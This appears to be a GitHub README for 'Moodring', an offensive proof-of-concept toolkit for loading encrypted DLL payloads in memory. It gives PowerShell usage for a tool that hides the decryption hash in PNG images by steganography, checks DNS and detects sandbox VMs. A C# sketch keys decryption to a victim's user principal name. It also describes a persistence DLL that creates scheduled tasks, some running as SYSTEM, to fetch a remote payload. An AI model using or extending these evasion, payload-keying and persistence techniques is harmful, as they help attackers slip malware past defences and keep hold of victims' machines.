 ## Moodring
PoC reflective DLL loader with encryption, steg and env checks. Decryption key is bruteforced at runtime after DNS server check is performed. 

### Cryptorchid - Encrypt and Hide 
Command line Encrypt/Decrypt tool, can test if the hash can be retrieved and payload decrypted successfully prior to putting it in the pipeline

```powershell
# Skip DNS check, use steganography, and encrypt the dll using AAAA and steg the hash into logo.png, to create logo_copy.png with the hash embeded in least signifcant bit
 .\Cryptorchid.exe -nodns -steg AAAA .\calc.dll .\Logo.png

# Check DNS match for google and check for Sandbox VMs, looks for encyrpted 'mod.txt' and png in the current dir, bruteforce to decrypt and load
# This is to test the sideloading dll, change these values in Decryptorchid source under Program.Main().
 .\Cryptorchid.exe 8.8.8.8 -antivm -stegload .\Logo_copy.png "Calc.Modes.RunCalc.Execute"

 # Pull hash from steg image and decrypt output to view (meant for text/test, will print the contents of dlls)
 .\Cryptorchid.exe -nodns -desteg  .\Logo_copy.png

 # Get hash of UPN for OST file matching
 .\Cryptorchid.exe -nodNS -hash manager@corpomax.com

 # Store hash of UPN in bit
  .\Cryptorchid.exe -nodNS -hideupn balls@krebsonsecurity.com .\NOGO.png
```

### Decryptorchid - Decrypts payload from encrypted text file using hash stored in image
Sideloading DLL, bruteforces the payloads decryption and loads target into memory, invoking your desired method. 


TODO: Have this an encrypted value we can pull as well from another image, get rid of the text file.
TODO: if O365, keying off the email is possible since regkey can be used that contains users email.
 Query Key > Hash Value > Store Hash and Compare against our stored value, if match, decrypt.

string storedHashValue = "";
 string regValue = Microsoft.Win32.Registry.GetValue(@"HKEY_CURRENT_USER\", "upn" null);
string upnName = (string)regValue;
 string hashedUpnValue = GetSHA256Hash(upnName);
 bool correctKey = hashedUpnValue.Equals(storedHashValue);
 if (correctKey){
    var rawPayload = rc4EncDecrypt(Encoding.UTF8.GetBytes(payload), upnName);
 }
 // run that motha

 Nope, target the ost/nst file instead, regkey incosistent.


### Taskmasker 
Persister DLL, checks users permissions and creates a task, fetching a remote payload to an AppData directory. If admin, two tasks are created, one to run as SYSTEM. 

